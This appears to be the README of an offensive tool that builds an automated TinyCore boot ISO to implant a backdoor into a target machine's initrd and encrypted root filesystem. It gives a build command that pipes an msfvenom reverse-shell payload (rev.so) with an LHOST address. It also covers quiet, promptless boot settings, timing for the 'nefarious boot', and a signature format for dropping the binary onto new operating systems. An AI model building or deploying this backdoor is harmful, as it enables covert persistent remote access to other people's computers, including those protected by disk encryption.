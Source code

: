 ## Details
### Compiling
See the `Makefile` for more information/configuration, `LHOST` is required in the
environment to build the `.so` as `msfvenom` is piped in at compile time.

Generic Instructions (builds iso image in cwd):
`LHOST=192.168.56.101 make rev.so iso`


### isolinux.cfg
The following options have been appended to the kernel boot:

`mc superuser nodhcp quiet loglevel=0`

Furthermore, the `prompt` value has been set to `0` to allow fully automated
execution.

### Timing
Approximate nefarious boot -> backdoored time: ~2 minutes
Approximate legit boot -> shell ~90 seconds (configurable, we want networking
up before us)

### Prerequisites
`core.d` is an unpacked core.gz from TinyCore with the below packages merged in.

`Core-current` is an unpacked `Core-current.iso`

The following packages have been installed inside tinycore (python, filesystem support):

 * bzip2-lib.tcz
 * filesystems-3.16.6-tinycore.tcz
 * gdbm.tcz
 * libffi.tcz
 * mtd-3.16.6-tinycore.tcz
 * ncurses.tcz
 * openssl.tcz
 * python.tcz
 * readline.tcz
 * sqlite3.tcz

### Adding new signatures
At a minimum signature is as follows:

```
"exampleOS" : {
    "IDENTIFIER" : "grep EXAMPLEOS etc/initrd-release",
    "ROOT" : "${rootmnt}",
    "FILENAME" : "/ldlinux.so.1",
    "INITRDFILENAME" : "hda1"
}
```

 * `exampleOS` is a unique name for this OS.
 *  `IDENTIFIER` is a shell command that has an exit code `0` when run against the correct initrd, and `!0` for anything else.
 *  `ROOT` is the full path or variable where the new root is mounted after decryption.
 *  `FILENAME` is the full path to drop our binary on the root fs. Take care to know what `initrd` mounts and what is mounted later on.
 *  `INITRDFILENAME` is the full path of the binary inside the initrd. This is copied inside `Makefile` (`cp ... core.d/...`) so it should match that.
